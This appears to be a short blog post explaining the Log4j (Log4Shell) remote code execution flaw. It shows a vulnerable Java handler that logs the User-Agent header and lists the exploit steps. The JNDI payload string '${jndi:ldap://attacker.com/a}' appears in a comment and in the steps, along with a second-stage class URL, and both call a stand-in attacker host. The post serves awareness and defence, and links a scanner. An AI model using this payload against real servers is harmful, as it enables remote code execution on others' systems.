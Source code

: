 ```yaml
---
layout: post
title:  "Log4J Remote Code Execution"
date:   2021-12-10 19:56:00 +0800
---
```


# [Reference](https://www.lunasec.io/docs/blog/log4j-zero-day/)

# Affected Apache log4j Version
2.0 <= Apache log4j <= 2.14.1

{% highlight Java %}
import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */ 
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
{% endhighlight %}

# Exploit Steps​
* Data from the User gets sent to the server (via any protocol),
* The server logs the data in the request, containing the malicious payload: ${jndi:ldap://attacker.com/a} (where attacker.com is an attacker controlled server),
* The log4j vulnerability is triggered by this payload and the server makes a request to attacker.com via "Java Naming and Directory Interface" (JNDI),
* This response contains a path to a remote Java class file (ex. http://second-stage.attacker.com/Exploit.class) which is injected into the server process,
* This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

# Scan Tool: [log4j-scanner](https://github.com/cisagov/log4j-scanner)
